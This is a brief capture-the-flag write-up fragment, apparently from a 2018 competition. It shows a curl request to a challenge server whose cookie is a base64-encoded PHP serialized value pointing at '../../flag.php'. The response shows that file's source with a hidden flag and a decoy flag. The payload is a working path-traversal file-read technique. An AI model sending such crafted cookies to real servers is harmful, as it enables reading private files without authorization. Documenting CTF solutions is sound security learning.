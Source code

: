 ```bash
curl 'http://39.108.167.229/index.php/picture' -H 'Cookie: Picture=YToxOntpOjA7czoxNDoiLi4vLi4vZmxhZy5waHAiO30=; PHPSESSID=h002spfr0jl8d42a7rep0osmhb;' -vv
<?php $flag = "hxb2018{87f23af96f20d8cb284c578b4c08ad03}"; echo "flag{This_flag_iS_A_F4ke_flag}";
```

![image](./img/pasted%20image%200%20(5).png)

![image](./img/pasted%20image%200%20(6).png)

`flag:flag{This_flag_iS_A_F4ke_flag}`
